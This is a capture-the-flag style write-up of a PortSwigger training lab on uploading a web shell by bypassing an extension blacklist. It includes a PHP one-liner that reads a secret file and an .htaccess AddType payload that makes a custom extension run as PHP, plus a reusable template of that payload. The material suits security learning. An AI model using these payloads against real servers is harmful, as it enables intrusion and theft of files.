




+++
author = "Blue Pho3nix"
title = "Web Shell Upload Via Extension Blacklist Bypass"
categories = ["PortSwigger"]
tags = [ "Medium","File Upload" ]
image = "categories/portswigger/portswigger-edit.png"
+++

</br>


## Description



> [This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist. <br> <br> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner. <br> <br> You can log in to your own account using the following credentials: `wiener:peter`.

# Solution

## Finding the Vulnerability

We navigate to the login page and sign in with the given credentials: `wiener:peter`.



**Test File Upload**

We use `Vim` to create an exploit.php web shell and then attempt to upload it to the server.

**Payload**

```bash
vim exploit.php
```

```vim
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

The response in Burp Suite indicates that the server is Apache. Furthermore, the error message on the web app is quite descriptive, stating: "Sorry, php files are not allowed. Sorry, there was an error uploading your file."

<video width=100% controls autoplay>
<source src="img/Osdn8wo3rnfADuugksad.webm" type="video/webm" />
<source src="img/Osdn8wo3rnfADuugksad.mp4" type="video/mp4" />
</video>



## Exploitation

**Overriding the server configuration**

Since the server is Apache, we uploaded a `.htaccess` file to create a whitelisted extension, `.test1234`. Then, we renamed our `exploit.php` file to `exploit.test1234` and uploaded the file to read `/home/carlos/secret`.

<video width=100% controls autoplay>
<source src="img/38q9hfefh9hAidhadj.webm" type="video/webm" />
<source src="img/38q9hfefh9hAidhadj.mp4" type="video/mp4" />
</video>

**My `.htaccess` payload**

```
vim .htaccess
```

```bash
AddType application/x-httpd-php .test1234
```

**Your `.htaccess` payload**

```bash
AddType application/x-httpd-php .[Your Extension Name]
```

**Enter Secret**

We finished the lab by submitting the secret as the solution.


